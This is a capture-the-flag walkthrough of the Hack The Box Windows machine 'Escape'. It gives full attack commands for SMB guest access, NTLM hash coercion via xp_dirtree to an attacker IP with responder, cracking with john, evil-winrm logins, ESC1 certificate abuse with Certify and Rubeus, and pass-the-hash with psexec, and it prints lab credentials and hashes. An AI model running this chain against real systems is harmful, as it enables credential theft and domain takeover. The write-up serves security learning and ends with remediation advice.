

## Machine Information

- **Machine Name:** Escape
- **Machine IP:** 10.10.11.202
- **Machine Type:** Easy
- **Machine OS:** Windows

---

## Reconnaissance - Information gathering

First and foremost step in pwning a system is reconnaissance, it includes gathering information about the target so exploiting it becomes a piece of cake. Most of the people do not perform efficient reconnaissance due to which they miss services that are vulnerable, this makes them think that the system is secure. Reconnaissance and Enumeration are very important factors in OSCP examination, because it is fairly easy to figure out what to exploit if you know the vulnerability, but to know the vulnerability you will have to perform extensive information gathering.

> *"Information is the key to many locked doors"*

### Ports and Services scan

Initially, I started with ports and services scan because it gives a borderer look on what ports are open and what type of services are openly accessible by us. This can give information about services version number which can be a building block in finding any exposed vulnerability or exploit on those versions.

**Commands:**
- `sudo nmap -sT -p- escape -oG nmapTCP`
- `grep "Ports:" nmapTCP | sed -n 's/.*Ports: //p' | tr ',' '\n' | grep "/open" | cut -d '/' -f1 | paste -sd,`
- `sudo nmap -sVC -p [ports] -O escape -oG nmapTCPFull`


**Output:**

```
Nmap scan report for escape (10.10.11.202)
Host is up (0.020s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-24 03:38:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-24T03:40:13+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-24T03:40:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.202:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-05-24T03:28:46
|_Not valid after:  2055-05-24T03:28:46
|_ssl-date: 2025-05-24T03:40:13+00:00; +7h59m59s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.202:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-05-24T03:40:13+00:00; +7h59m59s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-24T03:40:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49730/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-24T03:39:35
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.12 seconds
```

We can see that there are many open ports such as *53, 88, 135, 139, 389, 445, 464, 595, 636, 1433....*

### SMB & LDAP Enumeration

SMB is a network file sharing protocol that allows applications or users to **read and write files** and request services from servers on a network. It is used to share files, printers, and serial ports across a network. It enables computers to access shared folders and files on remote servers as if they were local.

LDAP stands for Lightweight Directory Access Protocol, and it is used to **access and maintain** distributed directory information services over a network. It provides a centralized directory for storing information about users, groups, computers, and other objects. It helps in authentication and authorization by querying directory services like Active Directory.

**Commands:**
- `sudo nmap -p445 --script smb-enum-* sequel.htb | tee nmapSmbEnum`
- `sudo nmap -p389 --script ldap-search sequel.htb | tee nmapLdapSearch`


We hit a rock here, because both of them returned no information. It probably means they both do not accept NULL or anonymous login attempt. Nmap tries to authenticate as NULL or anonymous to get information, but if those authentication are not allowed then it returns nothing.

### Digging deep into SMB

If I tell you guys that there is a magical way to authenticate yourself to SMB without actual username or password then you guys might start cursing me. I fully do not understand how this works, but it works so we gonna try this.

**Commands:**
- `crackmapexec smb 10.10.11.202`
- `crackmapexec smb 10.10.11.202 --shares`
- `crackmapexec smb 10.10.11.202 -u "" -p "" --shares`
- `crackmapexec smb 10.10.11.202 -u 'zeroHere' -p '' --shares`


I did a random username authentication, and as far as I understand this is a guest-level access. It means that many SMB servers accept blank password with a username and take that as a guest account. We found the following shares with READ access:
- Public
- IPC$

### Digging deep into LDAP

nmap might miss many things, so it is a good practice to enumerate the services with different tools. We just know saw how nmap missed the guest account stuff, but we did it with `crackmapexec`.

**Commands:**
- `ldapsearch -x -H ldap://10.10.11.202/ -s base namingcontexts`
- `ldapsearch -x -H ldap://10.10.11.202/ -b 'DC=sequel,DC=htb'`


We found naming contexts, but we failed to dig deep into them because we failed to authenticate. Well, we still have READ access to certain SMB shares so hope is still there.

### SSL/LDAP (3269) - Port Enum

We also had an port 3269 which hosted Secure LDAP, we cannot extract anything significant but if it is over SSL then it will be having a certificate so let's view it.

**Command:**
- `openssl s_client -showcerts -connect 10.10.11.202:3269 | openssl x509 -noout -text | less`


I didn't expected that, the certificate actually says *sequel-DC-CA* which means the machine itself is a CA Authority. Most of the time you would have seen a self-signed certificate which doesn't reveal much information, but if this is a CA authority then there are high chances of privilege escalation (Well, let's do not brag about it and focus on getting initial foothold)

## Initial Foothold

For everyone who do not get my English, I would like to say that *"foothold"* do not stand for me holding down someone's foot. It means getting access to a system in a cool terminology. We will start with SMB, because that was the only service that gave us enough information through which we might get our foothold.

### SMB Login - //letmein/

We will focus on logging in the SMB server or finding credentials hidden in any files that are stored on the shares that we have access to READ. If both the methods do not work then it will be healthy to assume that I have not pwned the machine and you all are getting social engineered for reading the whole incomplete writeup.

**Commands:**
- `smbclient -L //sequel.htb/`
- `smbclient //sequel.htb/Public/`


We made progress, we finally found a pdf from the PUBLIC share. It seems to be a procedure guidebook for SQL Server Setup, it might contain some juicy information. Lets dig into it. When I looked into the file, I got **2 potential users: Ryan and Brandon** and one pair of **username and password**.

**Credentials:** `PublicUser:GuestUserCantWrite1`

### Winrm Login - give me the shell

Winrm stands for *"Windows Remote Management"* and it is a Microsoft protocol that allows administrators to **remotely execute commands, access WMI (Windows Management Instrumentation), and manage remote machines.** It is based on the **WS-Management protocol**, a SOAP-based standard that enables interoperability across different hardware and operating system platforms.

There is a **evil-winrm** tool which is utilized by most of the red teamers to use this ability of winrm for their benefit. Tools like evil-winrm utilize the functionality of winrm to give a connection of the system to the attacker. This is possible only if attacker has any prior knowledge about usernames and their corresponding passwords, because it is used in winrm for authentication purposes.

**Commands:**
- `crackmapexec smb 10.10.11.202 -u PublicUser -p GuestUserCantWrite1 --shares`
- `crackmapexec winrm 10.10.11.202 -u PublicUser -p GuestUserCantWrite1`
- `crackmapexec winrm 10.10.11.202 --local-auth -u PublicUser -p GuestUserCantWrite1`


Well sometimes, failure is a sign of moving ahead. As it is evident that I didn't got a shell, which means that this user do not have winrm set on his side due to which we cannot connect to the system through that service.

### MS-SQL Login - show me the database;

Let's reconsider where we found this username and password? In a pdf file which was named *'SQL Standard Procedures'* and if we are not on the wrong track then we might get a SQL interface by authenticating as PublicUser. I will be using `mssqlclient` which is a sub-command of `impacket` command, but you can use any ms-sql client tool you wish.

**Commands (on the sql interface):**
- `impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb`
- `xp_dirtree //10.10.14.7/fake/share`

**Command (on the attacker machine):**
- `sudo responder -I tun0`


We were successfully able to login to MS-SQL service by using the given credentials, and after that I searched for sensitive files or data but the user has very low-privileges so we cannot execute commands or do much with it. After spending some time on the service I realised we can sniff other credentials if we use the function `xp_dirtree` which is used to access a share remotely. I tried accessing my own local system (attacker machine) with a fake share name, and on the other side I executed `responder` which will capture the login credentials (but they will be hashed) and we can further analyze them.

**Credentials responder received:**

```
[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:7053e10c1c852d42:DD27E883437AC604EAEBF4890B59647E:010100000000000080B075B004CCDB0126BE4D1EC2A4F0060000000002000800560036004500390001001E00570049004E002D0044003500320053004D0051004A0031004A004300330004003400570049004E002D0044003500320053004D0051004A0031004A00430033002E0056003600450039002E004C004F00430041004C000300140056003600450039002E004C004F00430041004C000500140056003600450039002E004C004F00430041004C000700080080B075B004CCDB01060004000200000008003000300000000000000000000000003000006D410410596DB1DE0726B17F9808BD6466106D3B97893CC4BF9E65B7B4D59E2B0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0037000000000000000000
```

**Command:**
- `john --format=netntlmv2 --wordlist=/usr/share/wordlist/rockyou.txt sql_svc.hash`



I saved the hash in a file named `sql_svc.hash` and used `johnTheRipper` tool to brute force it with the `rockyou.txt` wordlist. We found the password for sql_svc user which is and now we can use this password to try getting our first access to the system.

**Credentials:** `sql_svc:REGGIE1234ronnie`

**Commands:**
- `crackmapexec winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'`
- `evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'`
- `cd C:\SQLServer\Logs\`
- `type ERRORLOGS.BAK`


We did get a shell by using `evil-winrm` but unfortunately there was no user flag, which means we still have not made out initial foothold (technically, this is initial foothold but in a CTF environment your user flag proves your initial foothold). I tried looking at different files, but the access was limited. We still had access to SQL config and error log files, so I tried looking for them and downloaded the error log file on my system to locally review it.


We reviewed the file and previously we saw that there was a user named *Ryan* mentioned in that *SQL Standard Procedures* PDF file. I also have viewed the Users folder and found Ryan, but there was no mention of someone named `NuclearMosquito3` and it feels like it is the password of *Ryan* user so we will try to login using that and try to find the user flag.

**Credentials:** `sequel.htb/Ryan.Cooper:NuclearMosquito3`

**Commands:**
- `crackmapexec winrm 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'`
- `evil-winrm -i 10.10.11.202 -u 'ryan.cooper' -p 'NuclearMosquito3'`


Finally we were able to get to the user from using the above credentials. Now we try to escalate our privileges to root and get to the root flag.

---

## Privileges Escalation - gimme root!

In this stage, we will try to elevate our privilege to the admin or root user, which will give us access to all the corners of the system. An admin or root user is a default and special user, who is the GOD of all users, he can manage all services in the system, can create users, can delete users, can do everything and anything that you can imagine.

### Abusing CA cert - certify.exe

`Certify.exe` is a **legitimate post-exploitation tool** used during **Active Directory Certificate Services (AD CS)** attacks. It was developed by **Will Schroeder** and **Lee Christensen** as part of **SpecterOps** research. It is not malware, but rather a **red team tool** that allows security professionals (and attackers) to enumerate and abuse misconfigurations in **AD CS** environment.

**Commands:**
- `upload Certify.exe`
- `.\Certify.exe`


We previously found that the target system was a CA authority and we can use `Certify.exe` tool for performing privileges escalation, and find vulnerable aspect which we can utilize to get the root shell.

**Commands:**
- `.\Certify.exe find /vulnerable`
- `.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator`


I used `Certify.exe` to find vulnerable points in the system, and it showed me that the template `UserAuthentication` is vulnerable, so I exploited it to extract the private key of the admin user. We can further use them to login as admin without worrying about the admin's password.

**Commands:**
- `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`


I stored the private key in my local system in a file named `cert.pem` and then I used the `openssl` command to get `cert.pfx` file out of that private key. This will work as an authentication token which we will use to ask for the **Ticket Granting Token** through which we will get the password of the admin user. It is like saying *Hey, I am admin and here is my certificate, can you show me my password*.

### Rubeus - local authentication

**Commands:**
- `upload cert.pfx`
- `upload Rubeus.exe`
- `.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /norap`


 We were able to extract the TGT for the admin which was base64 encoded and at the end we also found the NTLM hash for the admin user. Now we can utilize this hash to do a **pass-the-hash attack** and perform a privilege escalation.

**NTLM Hash (administrator):** A52F78E4C751E5F5E17E1E9F3E58F4EE


**Command:**
- `impacket-psexec -hashes LM:NT administrator@10.10.11.202`

We used the `impacket-psexec` tool to perform **pass-the-hash attack** and we got the root flag too. Now we will..... what you reading? It is over from here, this is the ENDGAME! this is the ESCAPE!

---

## Conclusion

The *Escape* machine provided a realistic scenario emulating a misconfigured internal Windows environment with chained privilege escalation vectors. We began with basic enumeration that led to **SMB share enumeration, leveraged MS-SQL access, captured credentials using responder, and pivoted further through exposed logs and Active Directory Certificate Service (AD CS) misconfigurations.** This path ultimately enabled us to escalate privileges using **Certify.exe** to obtain a forged certificate and impersonate a higher-privileged user, leading to root access.

### Lessons Learned
- **Chaining low-severity misconfigurations** can lead to full domain compromise.
- **Credential reuse and leakage** across services and logs remains a critical and realistic attack vector.
- **AD CS misconfigurations,** such as improperly secured certificate templates, can be exploited using tools like Certify.exe, highlighting a newer and stealthy privilege escalation vector in Windows domains.

### Vulnerabilities Exploited
- **Sensitive information disclosure via SMB:** Unrestricted share access exposed MS-SQL credentials.
- **Responder capture due to LLMNR/NBT-NS poisoning:** Allowed credential capture and offline cracking.
- **Credential leakage in SQL Server logs:** Misconfigured logging revealed valid credentials for lateral movement.
- **AD CS misconfiguration (ESC1):** Certificate template allowed low-privileged users to request certificates for higher-privileged users by supplying custom UPNs, leading to impersonation via Kerberos.

### Fixes & Recommendations
- **Restrict SMB shares** and enforce strict access controls; avoid storing plaintext credentials in shared locations.
- **Disable LLMNR and NBT-NS** to prevent poisoning attacks and credential harvesting via Responder.
- **Sanitize logging configurations** to ensure sensitive information is never logged or exposed.
- **Audit and harden AD CS templates:**
	- Disable `ENROLLEE_SUPPLIES_SUBJECT` unless absolutely necessary.
	- Limit enrollment permissions to trusted users/groups only.
	- Implement monitoring for certificate-based authentication.

If you want to learn more about cybersecurity or hacking, then follow me on my social and join the cybersec community:

- [DISCORD](https://discord.gg/wyfwSxn3YB)
- [Instagram](https://www.instagram.com/_0x30_/)
